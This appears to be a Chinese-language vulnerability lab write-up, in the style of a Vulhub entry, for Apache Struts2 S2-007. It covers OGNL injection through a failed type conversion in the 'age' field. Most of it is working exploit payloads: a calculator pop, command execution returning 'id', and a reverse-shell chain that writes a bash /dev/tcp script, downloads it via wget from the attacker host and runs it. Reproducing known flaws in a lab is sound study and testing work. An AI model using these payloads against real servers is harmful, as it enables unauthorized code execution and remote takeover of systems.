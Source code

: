 # Struts2 S2-007 远程代码执行漏洞

## 漏洞描述

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

```
(...)
public class UserAction extends ActionSupport {
    private Integer age;
    private String name;
    private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
    "-//OpenSymphony Group//XWork Validator 1.0//EN"
    "http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

漏洞详情: 

- http://struts.apache.org/docs/s2-007.html

## 影响版本

影响版本: 2.0.0 - 2.2.3 

## 环境搭建

Vulhub执行以下命令启动s2-007测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.jsp`即可进入上传表单页面。

## 漏洞复现

执行任意代码的EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

将Exp传入可以利用的输入框（age），得到命令执行结果：

![image-20220301170152780](./images/202203011701833.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('wget 192.168.174.128/shell.sh').getInputStream())) + '
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('bash /usr/local/tomcat/shell.sh').getInputStream())) + '
```

成功接收反弹shell：

![image-20220301170256417](./images/202203011702511.png)

